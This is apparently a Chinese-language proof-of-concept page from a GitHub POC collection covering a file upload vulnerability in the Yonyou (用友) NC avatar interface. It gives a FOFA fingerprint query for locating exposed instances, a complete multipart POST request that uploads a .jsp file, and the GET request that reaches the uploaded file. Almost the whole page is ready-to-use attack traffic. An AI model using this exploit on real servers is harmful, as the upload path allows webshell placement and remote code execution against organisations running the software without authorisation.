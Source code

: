 ## 用友NC-avatar接口存在文件上传漏洞

## fofa
```
body="/Client/Uclient/UClient.exe"
```

## poc
```
POST /uapim/upload/avatar?usercode=1&fileType=jsp HTTP/1.1
Host: 192.168.63.129:8088
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryEXmnamw5gVZG9KAQ
User-Agent: Mozilla/5.0 

------WebKitFormBoundaryEXmnamw5gVZG9KAQ
Content-Disposition: form-data; name="file"; filename="111.jsp"
Content-Type: application/octet-stream

3999
------WebKitFormBoundaryEXmnamw5gVZG9KAQ--
```

![image](https://github.com/wy876/POC/assets/139549762/3776732e-df39-4d9e-9f6b-1ffcbd7c2d11)


文件上传路径

![image](https://github.com/wy876/POC/assets/139549762/c6a16b38-752c-4a54-88a4-a04b88109145)

```
GET /uapim/static/pages/photo/1/1.1713358789182.jsp HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2226.0 Safari/537.36
Connection: close
Accept-Encoding: gzip, deflate, br
```

![image](https://github.com/wy876/POC/assets/139549762/b6abe3ba-35e6-410a-a265-9b2e57d7d922)

`http://192.168.63.129:8088/uapim/static/pages/photo/1/1.1713358789182.jsp`

